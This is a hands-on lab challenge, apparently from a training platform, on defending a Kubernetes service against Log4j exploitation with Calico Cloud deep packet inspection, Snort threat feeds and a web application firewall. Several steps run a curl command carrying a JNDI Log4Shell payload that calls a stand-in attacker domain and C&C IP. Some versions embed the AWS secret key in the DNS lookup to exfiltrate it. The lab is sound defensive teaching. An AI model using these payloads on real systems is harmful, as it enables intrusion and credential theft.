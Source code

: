 ```yaml
---
slug: waf-dpi
id: km7fd7bgqviq
type: challenge
title: Mitigate the risk of Log4j using DPI and WAF
teaser: Apply security policies to reduce the attack surface.
notes:
- type: image
  url: ../assets/module03.png
tabs:
- title: Shell
  type: terminal
  hostname: controlplane
- title: Calico Cloud
  type: website
  hostname: controlplane
  url: https://www.calicocloud.io/home
  new_window: true
difficulty: basic
timelimit: 600
---
```


Log4j exploit simulation
================

**So how does this attack work?**
- In simple terms, the attacker exploits the vulnerability by sending a malicious request that includes an IP of the command and control (C&C) server to the Java Log4j server, and then the Log4j library executes it without verification and starts the communication with the C&C server.
- This results in an open threat that can be used to send the malicious payload by crafting a malicious request.

We will simulate the Log4j exploit in the `dev` namespace.


1- Check the running `vr-dev` service in the `dev` namespace.

```
kubectl get svc -n dev
```

2- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

3- Run the malicious query that will leverage JNDI lookup method and connects to the attacker C&C server.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Notice the IP of the C&C server is part of the query `185.220.101.56`.

4- Now let's go to the Calico Cloud UI to see the impact of this query.
- From the left menu, select **Service Graph** and choose ***Default**
- Double-click **Dev** namespace
- Click on the line that represents the traffic from `multitool` to `vr-dev` and expand the flows to see the details.

![Image Description](../assets/multitool-to-vr.png)

- click on the line that represent the traffic from `vr-dev` to `public network` and expnad the fllows to see the deatails.

![Image Description](../assets/vr-to-public.png)

Now the attacker has an open threat that could be used to send the malicious payload.

It's time to add some guard rails to protect against these malicious requests.

Deep Packet Inspection
================

1- Create a `DeepPacketInspection` resource. In this example, we will enable DPI on the `vr-dev` service in the `dev` namespace.

```bash
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: DeepPacketInspection
metadata:
  name: dpi-vr
  namespace: dev
spec:
  selector: app == "vr"
EOF
```

2- Check that the `tigera-dpi` pods are created successfully. It's a daemonSet, so one pod should be created in each node.

```bash
kubectl get pods -n tigera-dpi
```

3- Now, let's re-run our test.

- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.${env:AWS_SECRET_ACCESS_KEY}.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

4- This time, you should get an alert in Calico Cloud’s UI. Check the alert in the `Service Graph` or `Alerts` page.

![Image Description](../assets/dpi-alert.png)

![Image Description](../assets/alerts-page.png)


Threat feeds
================
Another mechanism to proactively restrict workload access is to use global threat feeds. Threat feeds are databases of known malicious IPs and FQDN that get updated regularly, and you can integrate them into Calico Cloud.

In this example of the Log4j exploit, the command and control IP address is listed in the Snort threat feed.

Let's configure Snort threat feeds to stop the log4j exploitation.

1- Create GlobalThreatFeed.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalThreatFeed
metadata:
  name: snort-ip-block-list
spec:
  pull:
    http:
      url: https://snort.org/downloads/ip-block-list
  globalNetworkSet:
    labels:
      threatfeed: snort
EOF
```

2- Create a security policy to block traffic to malicious IPs.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalNetworkPolicy
metadata:
  name: tigera-security.block-snort-ipthreatfeeds
spec:
  tier: tigera-security
  order: 0
  selector: all()
  namespaceSelector: ''
  serviceAccountSelector: ''
  egress:
    - action: Deny
      source: {}
      destination:
        selector: threatfeed == "snort"
  doNotTrack: false
  applyOnForward: false
  preDNAT: false
  types:
    - Egress
EOF
```

3- Repeat the log4j test.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.${env:AWS_SECRET_ACCESS_KEY}.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Now you notice that traffic is blocked because the C&C server IP is a malicious IP.

![Image Description](../assets/snort-threatfeeds.png)
![Image Description](../assets/threatfeed-alert.png)


Web Application Firewall (WAF)
================
Calico Cloud’s workload-based web application firewall (WAF) helps you protect cloud-native applications from application-layer attacks.

Important: You need to delete the globalthreatfeeds we created before to ensure it's not blocking the traffic.

```bash
kubectl delete globalthreatfeeds snort-ip-block-list
```

1- In this lab, WAF is enabled by default. You can check the status by running the following command:

```bash
kubectl describe  ApplicationLayer tigera-secure | grep 'Web Application Firewall'
```

2- Now you need to annotate the services for which you wish to enable WAF. In this example, we will annotate the `vr-dev` service.

```bash
kubectl annotate svc vr-dev -n dev projectcalico.org/l7-logging=true
```

3- If you try to exploit the Log4j vulnerability again, traffic should be blocked and you should get the following alert:

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```
- This time you should get a different http response as following

```bash
 HTTP/1.1 403 Forbidden
```

🏁 Finish
============
Click **Next** to continue to the next challenge.

